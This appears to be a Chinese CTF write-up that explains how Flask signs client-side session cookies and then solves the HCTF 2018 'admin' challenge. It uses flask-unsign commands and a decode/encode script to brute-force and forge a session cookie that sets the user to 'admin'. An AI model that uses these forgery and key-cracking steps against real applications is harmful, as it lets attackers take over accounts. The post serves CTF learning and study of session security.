

楔子 在写HCTF2018-admin题目的时候，遇到了flask中session伪造的问题，打算研究一下
一、cookie和session的一些小姿势 1、cookie： 在网站中，http请求是无状态的。也就是说即使第一次和服务器连接后并且登录成功后，第二次请求服务器依然不能知道当前请求是哪个用户。cookie的出现就是为了解决这个问题，第一次登录后服务器返回一些数据（cookie）给浏览器，然后浏览器保存在本地，当该用户发送第二次请求的时候，就会自动的把上次请求存储的cookie数据自动的携带给服务器，服务器通过浏览器携带的数据就能判断当前用户是哪个了。cookie存储的数据量有限，不同的浏览器有不同的存储大小，但一般不超过4KB。因此使用cookie只能存储一些小量的数据。
2、session: session和cookie的作用有点类似，都是为了存储用户相关的信息。不同的是，cookie是存储在本地浏览器，而session存储在服务器。存储在服务器的数据会更加的安全，不容易被窃取。但存储在服务器也有一定的弊端，就是会占用服务器的资源，但现在服务器已经发展至今，一些session信息还是绰绰有余的。
3、cookie和session结合使用：（其实个人感觉就是单纯用了cookie的功能） web开发发展至今，cookie和session的使用已经出现了一些非常成熟的方案。在如今的市场或者企业里，一般有两种存储方式：
1、存储在服务端：通过cookie存储一个session_id，然后具体的数据则是保存在session中。如果用户已经登录，则服务器会在cookie中保存一个session_id，下次再次请求的时候，会把该session_id携带上来，服务器根据session_id在session库中获取用户的session数据。就能知道该用户到底是谁，以及之前保存的一些状态信息。这种专业术语叫做server side session。
2、将session数据加密，然后存储在cookie中。这种专业术语叫做client side session。flask采用的就是这种方式，但是也可以替换成其他形式。
二、源码分析一下 他的session存储在客户端的cookie字段中，为了防止session篡改，flask进行了如下的处理，代码存放在flask模块中python3\Lib\site-packages\flask\sessions.py文件中。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 class SecureCookieSessionInterface (SessionInterface ): """The default session interface that stores sessions in signed cookies through the :mod:`itsdangerous` module. """ salt = "cookie-session" digest_method = staticmethod (hashlib.sha1) key_derivation = "hmac" serializer = session_json_serializer session_class = SecureCookieSession def get_signing_serializer (self, app ): if not app.secret_key: return None signer_kwargs = dict ( key_derivation=self.key_derivation, digest_method=self.digest_method ) return URLSafeTimedSerializer( app.secret_key, salt=self.salt, serializer=self.serializer, signer_kwargs=signer_kwargs, )
最后生成的session长这样json->zlib->base64后的源字符串 . 时间戳 . hmac签名信息eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn4pw.6KQvoMiQZo1Ttjr4dFJ7e0AN45U{'_permanent': True, 'username': 'st4ck'}，密钥为admin生成的
三、flask的session实战 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 from flask import Flask,sessionimport osfrom datetime import timedeltaapp = Flask(__name__) app.config['SECRET_KEY' ]='admin' app.config['PERMANENT_SESSION_LIFETIME' ]=timedelta(days=7 ) @app.route('/' def hello_world (): session.permanent=True session['username' ] = 'st4ck' return 'Hello World!' @app.route('/get/' def get (): return session.get('username' ) @app.route('/delete/' def delete (): print(session.get('username' )) session.pop('username' ) print(session.get('username' )) return 'delete' @app.route('/clear/' def clear (): print(session.get('username' )) session.clear() print(session.get('username' )) return 'clear' if __name__ == '__main__' : app.run(debug=True )
我们运行/,然后get请求后获得
获得session为
1 eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn3eg.zBDV4huj8XGiRbFjSPMZq1HeV5Y
四、session安全问题 其实生成上面的session居然是可以破解的！！！但是没有SECRET_KEY我们无法伪造，可以选择爆破但是一定要拿到SECRET_KEY才能伪造
安装$ pip3 install flask-unsign$ flask-unsign
1 2 3 4 5 C:\Users\38138\Desktop>flask-unsign --sign --cookie "{'_permanent': True, 'username': 'st4ck'}" --secret "secret" eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn-9Q.uNm3a4894t-TZogqY-Ab4M0HDz4 C:\Users\38138\Desktop>flask-unsign --decode --cookie "eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn-9Q.uNm3a4894t-TZogqY-Ab4M0HDz4" {'_permanent': True, 'username': 'st4ck'}
爆破key
1 flask-unsign --unsign --cookie "eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6Imd1ZXN0In0.Xm2ZFg.-quLR22o3jUH0PzdlVtj4m4Aecg"
方法2：使用脚本 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 import sysimport zlibfrom itsdangerous import base64_decodeimport astif sys.version_info[0 ] < 3 : raise Exception('Must be using at least Python 3' ) elif sys.version_info[0 ] == 3 and sys.version_info[1 ] < 4 : from abc import ABCMeta, abstractmethod else : from abc import ABC, abstractmethod import argparsefrom flask.sessions import SecureCookieSessionInterfaceclass MockApp (object def __init__ (self, secret_key ): self.secret_key = secret_key if sys.version_info[0 ] == 3 and sys.version_info[1 ] < 4 : class FSCM (metaclass=ABCMeta ): def encode (secret_key, session_cookie_structure ): """ Encode a Flask session cookie """ try : app = MockApp(secret_key) session_cookie_structure = dict (ast.literal_eval(session_cookie_structure)) si = SecureCookieSessionInterface() s = si.get_signing_serializer(app) return s.dumps(session_cookie_structure) except Exception as e: return "[Encoding error] {}" .format (e) raise e def decode (session_cookie_value, secret_key=None ): """ Decode a Flask cookie """ try : if (secret_key==None ): compressed = False payload = session_cookie_value if payload.startswith('.' ): compressed = True payload = payload[1 :] data = payload.split("." )[0 ] data = base64_decode(data) if compressed: data = zlib.decompress(data) return data else : app = MockApp(secret_key) si = SecureCookieSessionInterface() s = si.get_signing_serializer(app) return s.loads(session_cookie_value) except Exception as e: return "[Decoding error] {}" .format (e) raise e else : class FSCM (ABC ): def encode (secret_key, session_cookie_structure ): """ Encode a Flask session cookie """ try : app = MockApp(secret_key) session_cookie_structure = dict (ast.literal_eval(session_cookie_structure)) si = SecureCookieSessionInterface() s = si.get_signing_serializer(app) return s.dumps(session_cookie_structure) except Exception as e: return "[Encoding error] {}" .format (e) raise e def decode (session_cookie_value, secret_key=None ): """ Decode a Flask cookie """ try : if (secret_key==None ): compressed = False payload = session_cookie_value if payload.startswith('.' ): compressed = True payload = payload[1 :] data = payload.split("." )[0 ] data = base64_decode(data) if compressed: data = zlib.decompress(data) return data else : app = MockApp(secret_key) si = SecureCookieSessionInterface() s = si.get_signing_serializer(app) return s.loads(session_cookie_value) except Exception as e: return "[Decoding error] {}" .format (e) raise e if __name__ == "__main__" : print(FSCM.decode("eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn3eg.zBDV4huj8XGiRbFjSPMZq1HeV5Y" ))

参考 flask session 加解密工具：https://github.com/noraj/flask-session-cookie-manager https://github.com/Paradoxis/Flask-Unsign
五、[HCTF 2018]admin 有一个注册界面
我们注册一个
的账号，然后session解密
1 2 C:\Users\38138 \Desktop>flask-unsign --decode --cookie ".eJw9kEGLwjAQhf_KkrOHNtaL4GGX1mBhJlRSQ-Yibq22iXGhVagR__sGF_YwpzfvmzfvyfanoR07trwN93bG9v2RLZ_s45stGaiaS00dCfMgv-viOLKlB2-C1NVE-WZOAjIpSkd5aY1eXyBsFlIXKYqdx5wcKbRkPzOpHCfVpKQ2E-RowRcLE1wGAeZojz3wnUNecxPvyBwSFOtOiopL1cQMdQIaHSo3kS57UFsHNu5Y7I0vONpqxV4z1ozDaX_7ce31_wUUeCFLF1TnCfMqWiCR6uhRw0Sq7CA0D7ImRoBA6stjKFKqVm9c7w_n9p_Urrdlff5TrgcfBTbessaxGbuP7fDujaUJe_0C4HFsfw.Xbn_9Q.LN7SQgH0-wJ_7nD5E8h8KRKXEKM" {'_fresh' : True , '_id' : b'1569fadf2feafedf2f2f39d1d27dc88bdd2caae3299a54ef46de3cf08996e75e2103c2a9c9833767b3ed7e6bea8344aa8d69769e41cd591ebb14d23463bba664' , 'csrf_token' : b'4cef6e58144463497f5c1e2a372f67633e0f715e' , 'image' : b'xTIR' , 'name' : 'st4ck' , 'user_id' : '10' }
在修改密码的地方获得github地址https://github.com/woadsl1234/hctf_flask/SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
1 2 C:\Users\38138 \Desktop>flask-unsign --sign --cookie "{'_fresh': True, '_id': b'1569fadf2feafedf2f2f39d1d27dc88bdd2caae3299a54ef46de3cf08996e75e2103c2a9c9833767b3ed7e6bea8344aa8d69769e41cd591ebb14d23463bba664', 'csrf_token': b'4cef6e58144463497f5c1e2a372f67633e0f715e', 'image': b'xTIR', 'name': 'admin', 'user_id': '10'}" --secret "ckj123" .eJw9kEGLwjAQhf_KkrOHNupF8LBLa7AwEyqpIXMRbattYlyoCjXif9_ggoc5vXnfvHlPtjsO7bVji9twbyds1zds8WRfB7ZgoCouNXUkzIP8tovjyBYevAlSlyNl6ykJmElROMoKa_TqDGE9lzpPUWw9ZuRIoSX7PZPKcVJ1Smo9QoYWfD43wc0gwBRt0wPfOuQVN_GOzCBBseqkKLlUdcxQJaDRoXIj6aIHtXFg447F3vicoy2X7DVh9XU47m6_rr18XkCBZ7J0RnUaMSujBRKpGo8aRlJFB6F-kDUxAgRSPx5DnlK5fON6vz-1H1K72hTV6V-57H0U2L7x_YVN2P3aDu_eWJqw1x_isWyf.XboBVw.SUcm9Kffci1R5O3u9w-lcq21QMo
在浏览器修改cookie中的session值后直接就拿到了flag